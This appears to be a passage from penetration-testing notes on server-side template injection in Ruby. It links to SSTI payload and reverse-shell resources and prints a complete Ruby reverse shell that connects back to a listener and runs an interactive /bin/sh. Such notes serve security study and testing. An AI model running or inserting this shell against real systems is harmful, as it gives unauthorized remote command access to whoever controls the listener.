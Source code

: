 ![](./IMG/25.png)
- [(Github)SSTI to RCE Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---retrieve-etcpasswd)
- [A Pentester’s Guide to Server Side Template Injection (SSTI)](https://medium.com/@bdemir/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)

### Reverse Shell 
- [pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [(GTFOBins)ruby](https://gtfobins.github.io/gtfobins/ruby/)
- [(Github)Ruby Reverse Shell](https://gist.github.com/gr33n7007h/c8cba38c5a4a59905f62233b36882325)
```

#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '127.0.0.1'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```